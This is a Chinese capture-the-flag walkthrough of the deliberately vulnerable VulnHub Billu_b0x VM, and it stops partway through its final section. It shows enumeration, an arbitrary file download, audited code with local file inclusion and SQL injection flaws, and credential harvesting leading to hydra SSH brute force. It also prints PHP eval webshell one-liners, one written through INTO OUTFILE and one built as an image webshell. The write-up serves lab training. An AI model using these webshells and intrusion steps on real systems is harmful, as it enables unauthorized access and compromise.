




# Billu\_b0x

[https://www.vulnhub.com/entry/billu-b0x,188/](https://www.vulnhub.com/entry/billu-b0x,188/)

This Virtual machine is using ubuntu \(32 bit\)

Other packages used: -

PHP  
Apache  
MySQL

This virtual machine is having medium difficulty level with tricks.

One need to break into VM using web application and from there escalate privileges to gain root access

For any query ping me at [https://twitter.com/IndiShell1046](https://twitter.com/IndiShell1046)

Enjoy the machine

## 1.信息收集

### IP及服务发现

首先需要找到靶机IP，使用Nmap

`nmap -sn 192.168.1.0/24`

结果如下

```go
Nmap scan report for 192.168.1.7
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh 
80/tcp open  http
MAC Address: 00:0C:29:06:49:A0 (VMware)
```

## 2.漏洞挖掘

访问其80端口得到一个登录框，上方提示Show me your SQLI skills


### 2.1漏洞挖掘思路

```text
1.SQL注入：首页提示注入，验证是否存在可利用的SQL注入
2.爆破目录：使用dirb对站点目录进行爆破，寻找其他有价值的信息
3.漏洞扫描：使用AWVS等扫描攻击对站点进行扫描
4.手动挖掘：使用burp对各个页面进行分析，找出新漏洞
5.爆破SSH：目标服务器开放了22端口，可对22端口进行爆破
```

### 2.2尝试使用SQL注入

猜测是SQL注入，使用常用payload逐一尝试，发现js弹窗提示Try again

尝试使用sqlmap进行fuzz，但是没有成功，把他先放一放，先把目光转移到其他地方

### 2.3爆破目录

使用kali自带的目录爆破工具dirb对目录进行枚举

```go
dirb http://192.168.1.7/ /usr/share/dirb/wordlists/big.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jun 25 11:45:12 2019
URL_BASE: http://192.168.1.7/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.1.7/ ----
+ http://192.168.1.7/add (CODE:200|SIZE:307)                                                                          
+ http://192.168.1.7/c (CODE:200|SIZE:1)                                                                              
+ http://192.168.1.7/cgi-bin/ (CODE:403|SIZE:287)                                                                     
+ http://192.168.1.7/head (CODE:200|SIZE:2793)                                                                        
==> DIRECTORY: http://192.168.1.7/images/                                                                             
+ http://192.168.1.7/in (CODE:200|SIZE:47539)                                                                         
+ http://192.168.1.7/index (CODE:200|SIZE:3267)                                                                       
+ http://192.168.1.7/panel (CODE:302|SIZE:2469)                                                                       
==> DIRECTORY: http://192.168.1.7/phpmy/                                                                              
+ http://192.168.1.7/server-status (CODE:403|SIZE:292)                                                                
+ http://192.168.1.7/show (CODE:200|SIZE:1)                                                                           
+ http://192.168.1.7/test (CODE:200|SIZE:72)                                                                          
==> DIRECTORY: http://192.168.1.7/uploaded_images/                                                                    

---- Entering directory: http://192.168.1.7/phpmy/ ----
+ http://192.168.1.7/phpmy/ChangeLog (CODE:200|SIZE:28878)                                                            
+ http://192.168.1.7/phpmy/LICENSE (CODE:200|SIZE:18011)                                                              
+ http://192.168.1.7/phpmy/README (CODE:200|SIZE:2164)                                                                
+ http://192.168.1.7/phpmy/TODO (CODE:200|SIZE:190)                                                                   
+ http://192.168.1.7/phpmy/changelog (CODE:200|SIZE:8367)                                                                                                                                                             
-----------------
END_TIME: Tue Jun 25 11:45:52 2019
DOWNLOADED: 61374 - FOUND: 37
```

得到/add、/c、/in、/panel、/show、/test、/phpmy等目录  
访问192.168.1.7/test得到提示

  
分析得到存在一个任意文件下载漏洞

## 3.任意文件下载漏洞利用

（1）提交URL [http://192.168.1.7/test?file=/etc/passwd,依然提示file参数为空](http://192.168.1.7/test?file=/etc/passwd,依然提示file参数为空)  
（2）尝试将file以post请求提交



成功下载到/etc/passwd文件  
（3）利用任意文件下载漏洞下载add.php、c.php、in.php、show.php、panel.php等其他文件

### 3.1审计代码

对已下载的代码进行审计

#### 3.1.1审计add.php

add.php是一个上传界面，源码如下

```php
<?php

echo '<form  method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name=image>
    <input type=text name=name value="name">
    <input type=text name=address value="address">
    <input type=text name=id value=1337 >
    <input type="submit" value="upload" name="upload">
</form>';

?>
```

但是经过对add.php的源码审计发现，这个上传页面并不具有后台处理上传数据的功能，因此是不具有像服务器上传文件的功能的，这里应该是一个烟雾弹

#### 3.1.2审计c.php

c.php是数据库连接文件，源码如下

```php
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }
?>
```

从源码可以得到  
用户名：billu  
密码：b0x\_billu  
数据库名：ica\_lab  
但是这里有一个问题就是对服务器的端口扫描结果中mysql对应端口3306并未打开，怀疑mysql服务并未正常开启

#### 3.1.3审计/etc/passwd

```go
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

从/etc/passwd中可以得到可用于SSH登陆的用户名  
root  
ica  
该线索可用于爆破

#### 3.1.4审计in.php

访问in.php得到的是phpinfo页面，从phpinfo页面获得如下信息

```go
1.网站绝对路径/var/www  #DOCUMENT_ROOT的值，可用于写shell等
2.网站session存储的位置                #session.save_path
```

#### 3.1.5审计panel.php

关键代码如下

```php
<?php
session_start();

include('c.php');
include('head2.php');
if(@$_SESSION['logged']!=true )
{
        header('Location: index.php', true, 302);
        exit();

}

if(isset($_POST['lg']))
{
    unset($_SESSION['logged']);
    unset($_SESSION['admin']);
    header('Location: index.php', true, 302);
}
if(isset($_POST['continue']))
{
    $dir=getcwd();
    $choice=str_replace('./','',$_POST['load']);

    if($choice==='add')
    {
               include($dir.'/'.$choice.'.php');
            die();
    }

        if($choice==='show')
    {

        include($dir.'/'.$choice.'.php');
        die();
    }
    else
    {
        include($dir.'/'.$_POST['load']);
    }

}


if(isset($_POST['upload']))
{

    $name=mysqli_real_escape_string($conn,$_POST['name']);
    $address=mysqli_real_escape_string($conn,$_POST['address']);
    $id=mysqli_real_escape_string($conn,$_POST['id']);

    if(!empty($_FILES['image']['name']))
    {
        $iname=mysqli_real_escape_string($conn,$_FILES['image']['name']);
    $r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
    $image=array('jpeg','jpg','gif','png');
    if(in_array($r,$image))
    {
        $finfo = @new finfo(FILEINFO_MIME); 
    $filetype = @$finfo->file($_FILES['image']['tmp_name']);
        if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
                {
                    if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
                             {
                              echo "Uploaded successfully ";
                              $update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')'; 
                             mysqli_query($conn, $update);
                            }
                }
            else
            {
                echo "<br>i told you dear, only png,jpg and gif file are allowed";
            }
    }
    else
    {
        echo "<br>only png,jpg and gif file are allowed";
    }
}
}

?>
```

从源代码可以看出，panel.php是index.php登陆成功后跳转的管理界面，其中有查看、添加图片以及文件上传功能  
在panel.php中有这么一段代码

```php
if(isset($_POST['continue']))
{
    $dir=getcwd();
    $choice=str_replace('./','',$_POST['load']);

    if($choice==='add')
    {
               include($dir.'/'.$choice.'.php');
            die();
    }

        if($choice==='show')
    {

        include($dir.'/'.$choice.'.php');
        die();
    }
    else
    {
        include($dir.'/'.$_POST['load']);
    }

}
```

这段代码显然是存在本地文件包含漏洞的

**文件包含利用思路**

**0x00session文件包含**  
利用条件  
1.session存放绝对路径已知  
由于站点存在phpinfo，在session.savepath中可查看到session存放的绝对路径，这里为/var/lib/php5/  
session的文件名为sess\_+sessionid，sessionid可以通过F12获取，这里为`sess_kvrlqilq5obgc8j8hqdkkenis6`  
为了验证是否准确，使用开始发现的任意文件下载读取该session文件，结果如下



可见文件存在，满足第一个条件  
2.session变量可控  
该站点session并未找到可控session方法，待日后讨论

**0x01其他文件包含**  
1.利用panel.php上传图片的功能，上传一张图片马  
2.使用文件包含漏洞包含图片使之以PHP来执行  
3.获取webshell

#### 3.1.6审计index.php

关键代码如下

```php
<?php

if(isset($_POST['login']))
{
    $uname=str_replace('\'','',urldecode($_POST['un']));
    $pass=str_replace('\'','',urldecode($_POST['ps']));
    $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
    $result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
       echo "You are allowed<br>";
       $_SESSION['logged']=true;
       $_SESSION['admin']=$row['username'];

     header('Location: panel.php', true, 302);

}
?>
```

从index.php我们可以看出，登录框所使用是的过滤方式是对POST提交上去的值做URL解码后使用str\_replace\(\)函数寻找单引号并将单引号替换成空，在这里开始考虑如何绕过限制进行注入

#### 3.1.7审计/var/www/phpmy/config.inc.php

关键代码如下

```php
<?php

/* Servers configuration */

$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

?>
```

因为在使用dirb爆破出来的目录/phpmy/是phpmyadmin登陆界面，因此猜测其配置文件存放在默认目录  
得到口令root：roottoor

### 3.2审计总结

经过对任意文件下载所得到的各种信息，总结出以下几个漏洞利用点

1. 对SSH服务进行爆破
2. 利用phpmyadmin
3. 绕过限制对index.php页面进行SQL注入
4. panel.php页面文件包含

下面就对这几个漏洞利用点进行逐一分析利用

## 4.暴力破解SSH

### 4.1字典收集

一份好的字典直接决定到爆破的成功和效率，用于爆破的字典也不是一成不变的，针对性的生成字典将会事倍功半  
从利用任意文件下载漏洞得到的/etc/passwd、/var/www/phpmy/config.inc.php、c.php可获得以下信息  
**1. /etc/passwd**  
可用以登陆SSH的用户名为root\|ica  
**2. /var/www/phpmy/config.inc.php**  
口令root：roottoor  
**3. c.php**  
口令billu：b0x\_billu  
数据库名ica\_lab  
将这些信息整合成list.txt后使用john相互组合形成字典  
`john --wordlist=list.txt --stdout --rules > wordlist.txt`  
得到wordlist.txt，部分字典内容如下

```go
root
ica
roottoor
billu
b0x_billu
Root
Ica
Roottoor
Billu
roots
icas
roottoors
billus
root1
ica1
roottoor1
billu1
Root1
.
.
.
```

### 4.2使用hydra对SSH服务进行爆破

使用hydra对192.168.1.7 SSH服务进行爆破`hydra -L /root/桌面/wordlist.txt -P /root/桌面/wordlist.txt -t 6 ssh://192.168.1.7 #-t将线程调低为了保证稳定性`



得到服务器的root账户的口令root:roottoor，ssh连接为root权限

```go
Your Hardware Enablement Stack (HWE) is supported until April 2017.

Last login: Wed Jun 26 02:47:23 2019 from 192.168.1.6
root@indishell:~# whoami
root
```

至此完成挑战

## 5.利用phpmyadmin

利用phpmyadmin可以查看其数据库信息，也可以利用SQL语句写入Webshell

### 5.1对phpmyadmin进行口令猜解
使用在c.php、/var/www/config.inc.php收集到的口令对phpmyadmin进行口令猜解
口令root:roottoor、billu：b0x\_billu  
使用口令billu：b0x\_billu登入成功
### 5.2使用phpmyadmin收集信息
进入到phpmyadmin后，在ica\_lab数据库中找到了Web页面的验证信息biLLu：hEx_it
这里收集到的口令可以用来登入index.php页面
### 5.3使用phpmyadmin获取webshell(权限不足未成功)
当成功登入phpmyadmin后，会有许多方法来获取服务器的webshell
#### 5.3.1利用phpmyadmin日志获取webshell(权限不足未成功)
发现登入的用户billu不具有root权限，方法无法使用
#### 5.3.2利用phpmyadmin执行SQL语句获取webshell
在phpmyadmin处使用SQL语句功能，执行
```SQL
select '<?php @eval($_POST[cmd]);?>'INTO OUTFILE '/var/www/back.php'
```
提示
```go
#1045 - Access denied for user 'billu'@'localhost' (using password: YES)
```
没有权限，此路不通，所以只能将收集到的Web口令去尝试其他站点位置
## 6.利用panel.php页面文件包含漏洞
1. 使用在phpmyadmin中获取到的web口令biLLu：hEx_it登入，跳转到panel.php
2. 
###6.1 制作一个图片马
我们可以准备一个内容为`<?php @eval($_POST['hello']); ?> `的txt文档(name.txt)和一张不要太大的图片(可以是png/jpg/bng什么的，就叫1.jpg好了)
然后在CMD下使用`copy 1.jpg/b + name.txt/a 2.jpg `命令就可以轻松地得到一个名为2.jpg的图片马
